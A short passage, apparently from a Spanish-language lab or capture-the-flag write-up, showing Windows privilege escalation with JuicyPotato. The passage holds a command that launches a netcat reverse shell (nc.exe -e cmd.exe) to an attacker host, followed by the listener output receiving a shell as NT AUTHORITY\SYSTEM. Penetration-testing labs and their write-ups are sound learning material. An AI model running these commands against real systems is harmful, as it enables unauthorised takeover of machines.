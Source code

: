 ```
C:\Windows\Temp\Privesc>JuicyPotato.exe -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.16.35 9001" -t *
JuicyPotato.exe -l 1337 -c "{8BC3F05E-D86B-11D0-A075-00C04FB68820}" -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd.exe 10.10.16.35 9001" -t *
Testing {8BC3F05E-D86B-11D0-A075-00C04FB68820} 1337
....
[+] authresult 0
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

`Recibimos` la `shell` como `nt authority\system`

```
# nc -nlvp 9001 
listening on [any] 9001 ...
connect to [10.10.16.35] from (UNKNOWN) [10.129.186.242] 50611
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
